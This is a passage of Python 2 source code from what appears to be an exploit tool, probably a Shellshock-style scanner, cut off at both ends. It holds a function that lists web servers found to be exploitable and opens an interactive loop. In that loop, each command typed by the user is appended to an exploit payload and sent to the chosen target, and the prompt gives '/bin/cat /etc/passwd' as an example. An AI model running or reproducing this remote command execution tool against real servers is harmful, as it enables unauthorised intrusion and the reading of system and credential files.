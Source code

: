 ```python
        resp = urllib2.urlopen(req, None, TIMEOUT)
        result =  resp.read()
    except Exception as e:
        if verbose: print "[I] %s - %s" % (target, e) 
    finally:
        pass
    return result

def ask_for_console(proxy, successful_targets, verbose):
    """ With any discovered vulnerable servers asks user if they
    would like to choose one of these to send further commands to
    in a semi interactive way
    successful_targets is a dictionary:
    {url: (header, exploit)}
    """

    # Initialise to non zero to enter while loop
    user_input = 1
    ordered_url_list = successful_targets.keys()
    
    while user_input is not 0:
        result = ""
        print "[+] The following URLs appear to be exploitable:"
        for x in range(len(ordered_url_list)):
            print "  [%i] %s" % (x+1, ordered_url_list[x])
        print "[+] Would you like to exploit further?"
        user_input = raw_input("[>] Enter an URL number or 0 to exit: ")
        sys.stdout.flush()
        try:
            user_input = int(user_input)
        except:
            continue
        if user_input not in range(len(successful_targets)+1):
            print "[-] Please enter a number between 1 and %i (0 to exit)" % \
                                                            len(successful_targets)
            continue
        elif not user_input:
            continue
        target = ordered_url_list[user_input-1]
        header = successful_targets[target][0]
        print "[+] Entering interactive mode for %s" % target
        print "[+] Enter commands (e.g. /bin/cat /etc/passwd) or 'quit'"

        while True:
            command = ""
            result = ""
            sys.stdout.flush()
            command = raw_input("  > ")
            sys.stdout.flush()
            if command == "quit":
                sys.stdout.flush()
                print "[+] Exiting interactive mode..."
                sys.stdout.flush()
                break
            if command:
                attack = successful_targets[target][1] + command
                result = do_attack(proxy, target, header, attack, verbose)
            else:
                result = ""
            if result: 
                buf = StringIO.StringIO(result)
                for line in buf:
                    sys.stdout.flush()
```